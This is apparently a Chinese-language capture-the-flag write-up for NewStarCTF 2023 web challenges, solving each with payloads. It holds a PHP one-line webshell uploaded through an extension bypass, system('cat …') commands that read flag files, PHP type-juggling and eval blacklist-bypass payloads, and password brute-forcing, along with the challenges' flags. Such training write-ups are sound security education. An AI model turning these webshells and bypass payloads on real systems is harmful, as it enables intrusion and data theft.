# NewStarCTF 2023 公开赛道 WEB
# 泄漏的秘密
考点：敏感文件泄漏
通过盲猜 www.zip、index.php 等常用隐藏名称可以猜出。或者使用 dirsearch 进行搜索，可以查找到 www.zip 文件：

进行访问下载解压即可获得两个文件，将两个文件中的字段拼接起来就是 flag： flag{r0bots_1s_s0_us3ful_4nd_www.zip_1s_s0_d4ng3rous}

# Begin of Upload
考点：php 文件上传漏洞，一句话木马介绍
编写含有一句话木马的文件命名为 1.php，内容为：
<?php @eval($_POST['1']); echo "it is ok"; ?> |
点击上传后会提示：

改传 1.php.png，随后通过 Burp 拦截将上传内容修改为 1.php，上传成功：

再利用 中国蚁剑 工具进行链接：
http://eade7cdc-4610-4431-8fad-84e6f86ba897.node4.buuoj.cn:81/upload/1.php |

直接在蚁剑中找到 flag 文件 fllll4g：

或者 使用 Hackbar，查看目录内容也可以得知含有 fllll4g 文件：
1=system('ls /') |

再利用以下代码，得到 flag
1=system('cat /fllll4g') |
# Begin of HTTP
考点：HTTP 常见请求头、HTTP 请求方式
进入题目后，首先要求以 GET 方式给 ctf 参数传参数：

http://node4.buuoj.cn:29762/?ctf=1 |
之后要求用 POST 方法传入 secret 参数，并且必须是正确的 secret：

打开网页源代码可以找到 secret 提示：

Base64 解码后得到 secret 参数：
n3wst4rCTF2023g00000d
利用 Hackbar 传入 POST 参数：

下面更改 power 参数为 ctfer：

再更改浏览器参数为 NewStarCTF2023：

之后加入 Refer 参数，并修改为 newstarctf.com：

加入 X-Real-IP 参数为 127.0.0.1，修改为本地用户访问：

得到最终的 flag 值： flag{46df0dd3-dd02-4402-9e1e-08e555917442}
另：
本题还可以使用 Burp 等工具进行修改参数，还可以使用 Python 进行求解：
from requests import * | |
from base64 import b64decode | |
url = 'http://node4.buuoj.cn:29762/' | |
params = { | |
'ctf': '1', | |
} | |
data = { | |
'secret': b64decode('bjN3c3Q0ckNURjIwMjNnMDAwMDBk').decode(), | |
} | |
cookies = { | |
'power': 'ctfer', | |
} | |
headers = { | |
'User-Agent': 'NewStarCTF2023', | |
'Referer': 'newstarctf.com', | |
'X-Real-IP': 'localhost' | |
} | |
s = Session() | |
r = s.post(url, params=params, data=data, cookies=cookies, headers=headers) | |
print(r.text) | |
print(r.cookies.get_dict()) | |
print(r.headers) |
输出为：
<!DOCTYPE html> | |
<html> | |
<head> | |
<meta charset="utf-8" /> | |
<title>Begin of HTTP</title> | |
<link rel="stylesheet" type="text/css" href="css/style.css" tppabs="css/style.css" /> | |
<style> | |
body { | |
height: 100%; | |
background: #16a085; | |
overflow: hidden; | |
} | |
canvas { | |
z-index: -1; | |
position: absolute; | |
} | |
</style> | |
<script src="js/jquery.js"></script> | |
<script src="js/verificationNumbers.js" tppabs="js/verificationNumbers.js"></script> | |
<script src="js/Particleground.js" tppabs="js/Particleground.js"></script> | |
<script> | |
$(document).ready(function() { | |
$('body').particleground({ | |
dotColor: '#5cbdaa', | |
lineColor: '#5cbdaa' | |
}); | |
});ß | |
</script> | |
</head> | |
<body> | |
<dl class="admin_login"> | |
<dt> | |
<font color="white"><strong>Welcome to NewStarCTF 2023~</strong></font><br> | |
</dt> | |
<center> | |
<font size="4px" color="white"> | |
恭喜你顺利完成了本道题目，这是你的Flag，快去提交吧：flag{46df0dd3-dd02-4402-9e1e-08e555917442} | |
</font> | |
</center> | |
</dl> | |
</body> | |
</html> | |
{} | |
{'Connection': 'close', 'Content-Length': '666', 'Content-Encoding': 'gzip', 'Content-Type': 'text/html; charset=UTF-8', 'Date': 'Wed, 04 Oct 2023 01:58:05 GMT', 'Server': 'Apache/2.4.38 (Debian)', 'Vary': 'Accept-Encoding', 'X-Powered-By': 'PHP/7.3.15'} |
# ErrorFlask
考点：Flask 报错界面信息泄露
题目如下所示：
它说我们只用给出 number1 和 number2，它会帮我们添加，于是：
http://69dd29c8-0844-4ff3-aaef-ec632f65b4bc.node4.buuoj.cn:81/?number1=ab&number2=2 |

从中进行查找可以查看到 flag：

flag{Y0u_@re_3enset1ve_4bout_deb8g}
# Begin of PHP
考点：PHP 弱类型、PHP 加密函数数组绕过、PHP 函数特性、变量覆盖漏洞

本题一共分出了五个部分。
第一个部分：
if(isset($_GET['key1']) && isset($_GET['key2'])){ | |
echo "=Level 1=<br>"; | |
if($_GET['key1'] !== $_GET['key2'] && md5($_GET['key1']) == md5($_GET['key2'])){ | |
$flag1 = True; | |
}else{ | |
die("nope,this is level 1"); | |
}} |
主要考察 PHP 中 md5 弱类型比较的特点，只需要找到两个值不同但 md5 值以 0e 开头的字符串即可通过本关，原理是 0e 在进行弱类型比较时会被当作科学计数法进行比较，也就是 0。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a |
第二个部分：
if($flag1){ | |
echo "=Level 2=<br>"; | |
if(isset($_POST['key3'])){ | |
if(md5($_POST['key3']) === sha1($_POST['key3'])){ | |
$flag2 = True; | |
} | |
}else{ | |
die("nope,this is level 2"); | |
} | |
} |
主要考察 PHP 哈希函数的特性，在处理数组类型的传参时，md5、sha1 等哈希函数会返回 NULL 值，由此可以构造出 NULL===NULL 从而通过判断。
POST：key3[]=1 |
第三个部分：
if($flag2){ | |
echo "=Level 3=<br>"; | |
if(isset($_GET['key4'])){ | |
if(strcmp($_GET['key4'],file_get_contents("/flag")) == 0){ | |
$flag3 = True; | |
}else{ | |
die("nope,this is level 3"); | |
} | |
} | |
} |
主要考察 strcmp 函数特性，如果传入的参数为数组类型，该函数就会返回 NULL 值，构造 NULL==0 从而通过判断。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a&key4[]=1 |
第四个部分：
if($flag3){ | |
echo "=Level 4=<br>"; | |
if(isset($_GET['key5'])){ | |
if(!is_numeric($_GET['key5']) && $_GET['key5'] > 2023){ | |
$flag4 = True; | |
}else{ | |
die("nope,this is level 4"); | |
} | |
} | |
} |
主要考察 is_numeric 函数特性，在传入的数字后加入任意字母或 %00 即可通过本层的判断。
http://3b2a7f07-0051-40ce-b45b-bc6fe2cf723c.node4.buuoj.cn:81/?key1=s878926199a&key2=s155964671a&key4[]=1&key5=2024a |
第五个部分：
if($flag4){ | |
echo "=Level 5=<br>"; | |
extract($_POST); | |
foreach($_POST as $var){ | |
if(preg_match("/[a-zA-Z0-9]/",$var)){ | |
die("nope,this is level 5"); | |
} | |
} | |
if($flag5){ | |
echo file_get_contents("/flag"); | |
}else{ | |
die("nope,this is level 5"); | |
} | |
} |
考察 extract 函数导致的变量覆盖漏洞，这里的 if 判断只要保证传入变量 flag5 即可，根据上面的正则限制，变量值不能为字母和数字，那么可以传一个 ![] 进去，[] 空数组会隐式转换为 false，在！取反得到我们要的 true，(或者，传入一个任意符号也可通过本层。)
POST:key3[]=1&flag5=![] |
得到 flag : flag{8b247b57-901a-48d6-91d3-8df4b50f3803}
# R!C!E!
考点：md5 碰撞、PHP 特殊符号传参、PHP 命令执行、黑名单绕过
题目如下所示：
<?php | |
highlight_file(__FILE__); | |
if(isset($_POST['password'])&&isset($_POST['e_v.a.l'])){ | |
$password=md5($_POST['password']); | |
$code=$_POST['e_v.a.l']; | |
if(substr($password,0,6)==="c4d038"){ | |
if(!preg_match("/flag|system|pass|cat|ls/i",$code)){ | |
eval($code); | |
} | |
} | |
} |
首先题目要求 POST 传入一个 password ，password 的 hash 前六位为 c4d038，而哈希加密是一种不可破解的算法，我们只能通过碰撞来尝试获取我们需要的 password。
import hashlib
def crack(a):
for i in range(0,999999):
if(hashlib.md5(str(i).encode("GBK")).hexdigest()[0:6] == str(a)):
print(i)
break
crack("c4d038")
运行结果得知是 114514.
题目中 code 的传参是 e_v.a.l ，这时候如果直接按这个变量名来传参，php 是无法接收到这个值的，具体原因是 php 会自动把一些不合法的字符转化为下划线（注：php8 以下），比如这个点就会被转换为下划线，另外这种转换只会发生一次。故直接传相当于传的变量名为 e_v_a.l 。于是为了防止我们的点被自动转换，我们可以先让第一个下划线位置为不合法字符，从而转换为下划线，不会再转换后面的点。比如可以传入 e [v.a.l 。
最后看命令执行部分，这里是有一个黑名单的过滤：
if(!preg_match("/flag|system|pass|cat|ls/i",$code)){ | |
eval($code); | |
} |

看到了 flag 在根目录下。但是黑名单过滤了 flag 关键字，我们没法直接读取，于是可以使用参数逃逸绕过限制：
POST:password=114514&e[v.a.l=var_dump(file_get_contents($_POST['a']));&a=/flag |
POST:password=114514&e[v.a.l=echo file_get_contents("/"."f"."l"."a"."g"); |
得到 flag 为 flag{4c161ed0-2717-4082-b051-fe63b33efd4c}
# EasyLogin
考点：弱口令登录、HTTP 302 跳转抓包
进入之后是一个登录界面，先随便注册一个账号登进去看看。利用 Ctrl``C 和 Ctrl``D 回到 Shell，

简单看了下目录结构没有什么东西，只告知了含有一个 admin 用户，按方向上键可以查询 Bash 历史记录：

该登录密码采用 弱密码，并且，将 newstar 和 newstar2023 追加到了密码本中。先尝试用这两个新加入的密码进行登录 admin，结果都不对。利用 Burp 进行爆破，得到密码为 000000，登录：

在 302 请求页面中获得到 flag ： flag{4b723bc2-fc05-4d41-b7dd-f62ffa244f47}